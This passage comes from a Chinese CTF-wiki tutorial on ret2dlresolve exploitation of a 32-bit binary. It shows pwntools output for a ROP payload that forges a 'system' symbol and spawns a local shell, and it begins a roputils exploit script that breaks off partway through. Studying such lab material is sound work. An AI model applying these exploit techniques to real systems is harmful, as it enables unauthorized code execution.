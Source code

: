 需要注意的是，这里我'/bin/sh'的偏移我修改为了82，这是因为pwntools中它会自动帮你对齐字符串。。。下面这一行说明了问题。

```
0x0050:           'aara'
```

效果如下

```shell
➜  ret2dlresolve git:(master) ✗ python stage6.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 130415
[*] Loaded cached gadgets for './main'
0x0000:        0x8048380
0x0004:           0x2528
0x0008:           'bbbb' 'bbbb'
0x000c:        0x804a892
0x0010:           'bbbb' 'bbbb'
0x0014:           'bbbb' 'bbbb'
0x0018: '\x1c\xa0\x04\x08' '\x1c\xa0\x04\x08\x07i\x02\x00'
0x001c:  '\x07i\x02\x00'
0x0020:           'aaaa' 'aaaaaaaa'
0x0024:           'aaaa'
0x0028:  '\x00&\x00\x00' '\x00&\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x12\x00\x00\x00'
0x002c: '\x00\x00\x00\x00'
0x0030: '\x00\x00\x00\x00'
0x0034: '\x12\x00\x00\x00'
0x0038:           'syst' 'system\x00'
0x003c:        'em\x00o'
0x0040:             'aa'
0x0044:           'aaaa' 'aaaaaaaaaaaaaa'
0x0048:           'aaaa'
0x004c:           'aaaa'
0x0050:           'aara'
82
[*] Switching to interactive mode
/bin/sh: 1: xa: not found
$ ls
core  main.c     stage2.py  stage4.py  stage6.py
main  stage1.py  stage3.py  stage5.py
```

### 工具攻击

根据上面的介绍，我们应该很容易可以理解这个攻击了。下面我们直接使用roputil来进行攻击。代码如下

```python
from roputils import *
from pwn import process
from pwn import gdb
from pwn import context
r = process('./main')
context.log_level = 'debug'
r.recv()

rop = ROP('./main')
offset = 112
bss_base = rop.section('.bss')
buf = rop.fill(offset)

buf += rop.call('read', 0, bss_base, 100)
# used to call dl_Resolve()
```